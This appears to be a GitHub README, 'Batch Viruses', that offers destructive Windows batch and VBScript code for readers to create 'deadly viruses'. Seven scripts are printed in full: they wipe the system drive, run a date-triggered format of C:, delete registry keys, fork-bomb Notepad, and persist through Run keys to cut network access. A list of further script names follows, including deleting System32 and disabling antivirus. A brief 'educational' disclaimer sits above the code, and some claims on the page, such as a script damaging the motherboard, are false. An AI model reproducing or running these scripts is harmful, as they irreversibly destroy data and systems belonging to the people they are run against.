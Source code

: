 <h1 align="center"> Batch Viruses</h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.



---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
 ### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 



virus8.bat
crazy caps lock
virus9.bat
Endless Backspace

virus10.bat
Disable the Antivirus
virus11.bat
Task-kill some apps
virus12.bat
Command Line Notepad
yesterday
virus13.bat
CD/ROM popper with malicious popups
yesterday
virus14.bat
CD drive popup
yesterday
virus15.bat
stop current internet access
virus16.bat
Format all Drives from C to J
virus17.bat
Delete Entire Registry
virus18.bat
Crash PC for ever
virus19.bat
Application bomber
virus20.bat
Delete System 32 Folder
virus21.bat
Disgust and shut down!
virus22.bat
Destroy-shutdown with popup
virus23.bat
Shutdowns Computer Everytime It Is Turned On
virus24.bat
Change useful random files to on-working txt files
virus25.bat
system meltdown
virus26.bat
flood internet
virus27.bat
Matrix virus
virus28.bat
Bloat randon folder
virus29.bat
User Account Bloatware
virus30.bat
overload with unlimited background processes

virus31.bat
Rabs killer and system crasher virus
virus32.bat
Show incognito history
virus33.bat
Delete entire system
virus34.bat
Create virus34.bat
virus35.bat
txt bloater
